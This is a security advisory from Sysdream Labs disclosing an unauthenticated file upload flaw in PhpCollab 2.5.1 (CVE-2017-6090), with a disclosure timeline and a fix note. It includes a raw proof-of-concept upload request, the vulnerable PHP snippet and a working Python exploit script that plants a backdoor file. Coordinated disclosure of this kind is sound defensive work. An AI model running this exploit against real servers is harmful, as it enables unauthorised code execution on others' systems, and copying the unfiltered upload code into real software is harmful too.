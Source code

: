 # [CVE-2017-6090] PhpCollab 2.5.1 Arbitrary File Upload (unauthenticated)

## Description

PhpCollab is an open source web-based project management system, that enables collaboration across the Internet.

## Arbitrary File Upload

The phpCollab code does not correctly filter uploaded file contents. An unauthenticated attacker may upload and execute arbitrary code.

**CVE ID**: CVE-2017-6090

**Access Vector**: remote

**Security Risk**: Critical

**Vulnerability**: CWE-434

**CVSS Base Score**: 10 (Critical)

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

### Proof of Concept

The following HTTP request allows an attacker to upload a malicious php file, without authentication.
Thus, a file named after `$id.extension` is created.

For example, a backdoor file can be reached at `http://phpCollab.lan/logos_clients/1.php`.

```
POST /clients/editclient.php?id=1&action=update HTTP/1.1
Host: phpCollab.lan
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------154934846911423734231554128137
Content-Length: 252

-----------------------------154934846911423734231554128137
Content-Disposition: form-data; name="upload"; filename="backdoor.php"
Content-Type: application/x-php

<?php phpinfo(); ?>

-----------------------------154934846911423734231554128137--
```


### Vulnerable code

The vulnerable code is found in `clients/editclient.php`, line 63.

```
$extension = strtolower( substr( strrchr($_FILES['upload']['name'], ".") ,1) );
if(@move_uploaded_file($_FILES['upload']['tmp_name'], "../logos_clients/".$id.".$extension"))
{
  chmod("../logos_clients/".$id.".$extension",0666);
  $tmpquery = "UPDATE ".$tableCollab["organizations"]." SET extension_logo='$extension' WHERE id='$id'";
  connectSql("$tmpquery");
}
```


### Exploit code

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import os
import sys
import requests

if __name__ == '__main__':
    if (len(sys.argv) != 4):
        print("Enter your target, userid and path for file upload like : python exploit.py http://www.phpCollabURL.lan 1 /tmp/test.php")
        sys.exit(1)

    target = "%s/clients/editclient.php?id=%s&action=update" % (sys.argv[1], sys.argv[2])
    print("[*] Trying to exploit with URL : %s..." % target)
    backdoor = {'upload': open(sys.argv[3], 'rb')}
    r = requests.post(target, files=backdoor)
    extension = os.path.splitext(sys.argv[3])[1]
    link = "%s/logos_clients/%s%s" % (sys.argv[1], sys.argv[2], extension )
    r = requests.get(link)
    if r.status_code == 200:
        print("[OK] Backdoor link : %s" % link)
    else:
        print("[FAIL]Problem (status:%s) (link:%s)" % (r.status_code, link))
```

## Solution

Update to the latest version avalaible.

## Affected versions

* Version <= 2.5.1

## Timeline (dd/mm/yyyy)

* 27/08/2016 : Initial discovery.
* 05/10/2016 : Initial contact.
* 11/10/2016 : GPG Key exchange.
* 19/10/2016 : Advisory sent to vendor.
* 13/02/2017 : First fixes.
* 15/02/2017 : Fixes validation by Sysdream.
* 21/02/2017 : PhpCollab ask to wait before publish.
* 21/06/2017 : New version has been released.
* 29/09/2017 : Public disclosure.

## Credits

* Nicolas SERRA, Sysdream  (n.serra -at- sysdream -dot- com)

--
SYSDREAM Labs <labs@sysdream.com> 
GPG : 47D1 E124 C43E F992 2A2E 1551 8EB4 8CD9 D5B2 59A1 
* Website: https://sysdream.com/ 
* Twitter: @sysdream